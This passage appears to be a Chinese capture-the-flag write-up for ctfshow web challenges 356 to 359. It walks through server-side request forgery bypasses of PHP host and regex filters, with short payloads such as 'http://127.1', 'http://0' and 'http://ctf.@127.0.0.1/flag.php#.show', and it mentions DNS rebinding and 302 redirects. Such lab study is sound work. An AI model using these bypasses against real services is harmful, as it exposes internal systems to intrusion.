 ```
url=http://127.1/flag.php
```

## web356

更绝了限制$host<3，老规矩

```
url=http://0/flag.php
```

## web357

关键代码，不能是一些私有地址

```php
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}
```

```
FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。
```

用web353说过的 DNS-Rebinding 与 302跳转即可解题

## web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

正则匹配，以固定的值开头以固定的值结尾

```
url=http://ctf.@127.0.0.1/flag.php#.show
```

## web359

参考见 CTFer 成长之路 第 74 页 

```
file:///E:/渗透课件/Information_Security_Books/175从0到1：CTFer成长之路/从0到1：CTFer成长之路.pdf   
```
